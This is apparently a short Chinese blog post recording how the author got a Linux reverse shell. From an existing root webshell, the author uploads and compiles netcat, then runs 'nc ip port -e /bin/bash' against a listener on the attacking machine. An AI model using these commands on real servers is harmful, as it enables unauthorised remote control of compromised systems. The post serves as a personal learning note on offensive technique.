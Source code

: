 ```yaml
---
title: 记一次linux反弹shell
date: 2018-01-27 12:30:53
tags:
	- notes
categories:
	- notes

---
```


![](https://ws1.sinaimg.cn/large/006Y6f53ly1fnv3p4s7hbj30o80araap.jpg)

<!--more-->

Linux 反弹shell,一直都有听说过，可惜自己不会。今天受xz指点，学会了。特记录一下。

![](https://ws1.sinaimg.cn/large/006Y6f53ly1fnv2976wsfj30md03zjr7.jpg)


`root`权限，非常好，省得提权了。

由于Linux``我们在`webshell`里面是不好进行交互的，所以我们需要进行反弹`shell`操作。


首页我们通过`webshell`上传`nc`源码到`linux`服务器上

![](https://ws1.sinaimg.cn/large/006Y6f53ly1fnv2c7fxvbj30lf06e745.jpg)



然后我们进行解压、编译操作


 `tar -zxvf /tmp/nc/netcat.tar.gz -C /tmp/nc`


![](https://ws1.sinaimg.cn/large/006Y6f53ly1fnv2evqruxj30t50i50tb.jpg)


由于在webshell里面无法切换目录，而编译文件需要在源码目录下进行。
所以我们可以编写一个sh脚本，让它执行编译操作。


`/tmp/nc/netcat-0.7.1/./configure --prefix=/tmp/nc/netcat/ && make && make install`

![](https://ws1.sinaimg.cn/large/006Y6f53ly1fnv3drbz77j30hi0gj747.jpg)

![](https://ws1.sinaimg.cn/large/006Y6f53ly1fnv3ejo1y1j30hv07n746.jpg)


最后就是最重要的看点，`linux`反弹`shell`。

服务端执行如下命令：

    nc ip port -e /bin/bash

![](https://ws1.sinaimg.cn/large/006Y6f53ly1fnv3mcwt9ej30k1053wee.jpg)

攻击端进行监听：

    nc -lvvp 6666

![](https://ws1.sinaimg.cn/large/006Y6f53ly1fnv3mz4h1hj30gq03ojra.jpg)


反弹`shell`成功

![](https://ws1.sinaimg.cn/large/006Y6f53ly1fnv3p4s7hbj30o80araap.jpg)

</br>
**总结**：

- 学会请教人，自己不会，但可以请教有经验的人把它学会。
- 方法很重要



